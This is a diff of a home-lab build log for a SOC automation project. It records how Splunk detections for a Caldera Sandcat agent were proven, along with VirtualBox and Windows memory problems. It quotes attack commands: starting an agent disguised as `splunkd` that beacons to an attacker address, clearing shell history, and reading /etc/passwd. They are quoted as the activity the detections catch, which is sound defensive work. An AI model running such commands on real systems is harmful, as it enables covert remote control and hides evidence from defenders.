

Before and after one commit to MustafaS14/SOC_Automation_Bot, a Markdown page: docs/lab-build-log.md, 2 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: build log section for proving both detections
Updated detection notes and clarified alert firing conditions. Added details on handling Splunk and VM issues during testing.

```diff
--- a/docs/lab-build-log.md
+++ b/docs/lab-build-log.md
@@ -353,7 +353,7 @@ Snapshots taken at this point: `soc-siem` and `SOC-Victim-Ubuntu`, both named `p
 3. **The agent.** The Sandcat command from Caldera was run on the victim. The agent is named `splunkd` on purpose (it imitates Splunk's own name) and showed `Beacon (HTTP): ALIVE`.
 4. **A clock problem.** The SIEM had been resumed from a saved state and its clock was a day behind, so new events looked like they were from the future and the "last 15 minutes" search found nothing. Searching a wider window (`earliest=-2d latest=+2d`) showed the events were there. After `sudo timedatectl set-ntp true` the clock matched (12:04 UTC on 30 October). Do this after every resume.
 5. **What Splunk recorded.** The agent being downloaded and started (`curl`, `chmod +x`, `./splunkd -server http://192.168.56.30:8888 -group red -v`), then the operation's commands: `whoami`, `cut -d:` (reading the account list), `grep`, `ps aux` and `grep sshd`. Login-banner scripts (`tr`, `cut`) are background noise. Caldera runs its commands through `sh -c '...'`, so the real command can sit in field `a2`, not `a0`.
-6. **Detection 1, several discovery commands in a short time** (MITRE T1033, T1082, T1057, T1087.001). Written to read the real command from either field. It found no result yet because only two different commands (`whoami`, `ps`) fell in one ten-minute window and the rule needs three. Not proven.
+6. **Detection 1, several discovery commands in a short time** (MITRE T1033, T1082, T1057, T1087.001). Written to read the real command from either field. It found no result yet because only two different commands (`whoami`, `ps`) fell in one ten-minute window and the rule needs three. Not proven that day (rewritten and proven on 2 November, see section 16).
 7. **Detection 2, a program called `./splunkd` started from a home directory** (MITRE T1036.004, masquerading). It found exactly one event, the agent start, and extracts the attacker's address `192.168.56.30` from the command. **Proven.**
 8. **The alert was not saved.** Setting it up needed a throttle field and an action, then Splunk said the connection may have been lost: the SIEM VM had crashed (VirtualBox *Guru Meditation*, shown in French as *Méditation profonde*). The alert had to be recreated after the VM was restarted (done on 2 November, see section 15). The cause of the crash has not been investigated.
 
@@ -369,12 +369,24 @@ All detections are listed in [detections.md](detections.md).
 4. **The web page said "Connection refused".** The browser showed a short error from Splunk Web. The log showed it forwarding every page to an internal web service on port 8065 that nothing was listening on, while the main Splunk process was running. `docker restart splunk` fixed it and the login page worked again. The reason the web service did not start after the crash was not found.
 5. **Commands that misled.** `docker exec` without `-u splunk` runs as the wrong user and prints "Permission denied" and "pid file unreadable" even though Splunk is fine. The container has no `ss` tool. Use `docker exec -u splunk splunk ...`, and test pages with `curl` from the VM.
 6. **The alert is saved.** The `./splunkd` search returned its one row (the agent start on 30 October) and was saved as an alert with the settings in [detections.md](detections.md), severity High. A new alert is private, so it first sat in the user's own folder (`etc/users/admin/search/local/`). Sharing it with the app (*Edit Permissions*, *Display for: App*, read and write for admin, read for everyone) moved it to `etc/apps/search/local/savedsearches.conf`. A copy is stored in [`infra/siem/splunk/savedsearches.conf`](../infra/siem/splunk/savedsearches.conf) so it can be restored.
-7. **Not yet proven to fire.** The alert only looks at the last 15 minutes, so it will not fire until a new `./splunkd` start happens.
+7. **Not yet proven to fire.** The alert only looks at the last 15 minutes, so it will not fire until a new `./splunkd` start happens. (It fired later the same day, see section 16.)
 
-## 16. Next
+## 16. Proving both detections (2026-11-02)
 
-- Prove the alert fires: start the attacker, fix the clock on each VM, restart the Sandcat agent on the victim, and look in *Activity, Triggered Alerts* within 5 minutes. Then prove detection 1 with a full Discovery run.
-- Look at `VBox.log` for the cause of the SIEM crash (not yet investigated).
+**In simple words.** We started the attacker again, ran a full Discovery operation and watched both tripwires work on real attack data. We also found out why the discovery tripwire had missed things before, and fixed it.
+
+1. **The victim would not start.** VirtualBox showed *Aborted* and then *VERR_UNRESOLVED_ERROR* on every start. `VBox.log` ended with Windows error 1455 (the paging file is too small) while reserving the guest's RAM. The PC has 29.8 GB of RAM; the three VMs reserve about 16 GB, WSL held about 6 GB more, and only 0.3 GB of "commit" was left. `wsl --shutdown` freed physical RAM but not commit. Raising the page file to 32 GB initial and 64 GB maximum (*Advanced system settings, Performance, Virtual memory*) took the free commit to 16 GB and the victim started, without a Windows restart. The SIEM had been killed in the same squeeze (shown as *Avortée*) and started normally afterwards. Check with `Get-CimInstance Win32_OperatingSystem` and look at `FreeVirtualMemory`.
+2. **Saved states.** The victim showed *Aborted Saved*. Discarding the saved state (like a power cut; the disk is kept) and starting fresh worked. Fresh boots need the clock fixed on every VM. The victim's time zone is CET and the others use UTC; they agree.
+3. **Splunk was slow again.** After the hard stop it took about 25 minutes to be usable. This time no restart was needed.
+4. **The alert fired.** A new Sandcat agent was started on the victim. The scheduler ran the alert at 14:05 and 14:10 UTC with one result each, and *Triggered Alerts* shows one entry at 14:05:00 (the 14:10 run was held back by the throttle). Detection 2 is proven.
+5. **Hex-encoded commands.** auditd writes a command in hexadecimal when it contains spaces or special characters, so Caldera's `sh -c` commands were unreadable to the old detection 1. Decoding them (see [detections.md](detections.md)) showed what the agent runs: first `> $HOME/.bash_history && unset HISTFILE` (clearing the history), then the Discovery steps.
+6. **Detection 1 rewritten and proven.** A Discovery operation (`discovery-02`, planner atomic, plain-text, group red) ran `whoami`, `id`, `uname`, several `ps aux | grep ...` and `cut -d: -f1 /etc/passwd | grep ...`. The new rule sorts commands into kinds of activity and fires on three or more kinds in ten minutes. It returned one row with four kinds and is saved as a second alert (Medium). Both alerts are copied to [`infra/siem/splunk/savedsearches.conf`](../infra/siem/splunk/savedsearches.conf).
+7. **Mistakes to avoid.** Commands typed into the window where the agent runs in the foreground are not run; they wait until the agent stops, so use a second SSH window. Starting the agent twice leaves two live agents and doubles every step. Stop old ones (`sudo pkill -f "splunkd -server"`) before starting one.
+
+## 17. Next
+
+- Watch the host's memory: the SIEM crashes and the victim's failed starts point to Windows running out of commit (see section 16). Cap WSL's memory with a `.wslconfig` and keep the page file large.
+- Add detection 3 (shell history cleared, T1070.003) and decide whether to tighten the discovery threshold.
 - Write a small custom Splunk alert action that posts the first result row to the bot's webhook with the `X-Webhook-Secret` header (the built-in webhook cannot add headers), with the secret read from a root-only file and never stored in the repo.
 - Create the `responder` user on the victim from [`infra/responder/`](../infra/responder/); run the bot in real mode; send a test alert with `curl`, then a real Caldera run; test isolation from a snapshot first.
 - Try the `op run` setup with a real 1Password item and the systemd credentials on `soc-siem`.
```
